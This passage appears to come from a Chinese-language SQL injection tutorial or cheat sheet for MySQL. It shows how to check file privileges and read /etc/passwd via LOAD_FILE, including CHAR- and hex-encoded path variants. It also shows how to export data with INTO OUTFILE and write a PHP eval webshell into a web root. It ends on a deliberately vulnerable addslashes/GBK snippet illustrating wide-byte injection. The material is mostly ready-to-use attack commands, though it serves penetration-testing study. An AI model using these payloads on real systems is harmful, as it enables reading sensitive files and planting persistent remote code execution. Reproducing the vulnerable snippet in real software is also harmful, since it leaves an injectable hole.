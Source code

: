 #### 读写文件

**利用sql注入可以导入导出文件，获取文件内容，或向恩家写入内容**

**查询用户读写权限：**

**`select file_priv from mysql.user where user='root';`**

**首先查看变量确定权限：**

**`show variables like '%secure%'`**

- **当secure_file_priv为空，就可以读取磁盘的目录**
- **当secure_file_priv为`G:\`，就可以读取G盘的文件**
- **当secure_file_priv为null，load_file就不能加载文件**

**load_file()读取**

**条件**

- **需要有读取文件的权限**

- **需要知道文件的绝对物理路径**

- **需要读取的文件大小必须小于max_allowed_packet**

  **`select @@max_allowed_packet;`**

**直接使用绝对路径**

**`SELECT LOAD_FILE("/etc/passwd");`**

**`SELECT LOAD_FILE(CHAR(47,101,116,99,47,112,97,115,115,119,100));`**

**`SELECT LOAD_FILE(0x2f6574632f706173737764);`**

**SELECT导出**

**条件**

- **一般要指定绝对路径**
- **需导出的目录有可写权限**
- **需要outfile出的文件不能已经存在**

**`select database() into outfile '/tmp/test';`**

**写入webshell**

**条件**

- **需要知道网站的绝对物理路径，这样导出后的webshell可访问**

- **对需导出的目录有可写权限**

  **`select "<?php eval($_POST['a']?>" into outfile '/var/www/html/shell.php';`**

#### 宽字节注入

**原理**

```mysql
mysql_query("SET NAMES 'gbk'");

$name = isset($_GET['name']) ? addslashes($_GET['name']) : 1;
$sql = "SELECT * FROM test WHERE names='{$name}'";
```
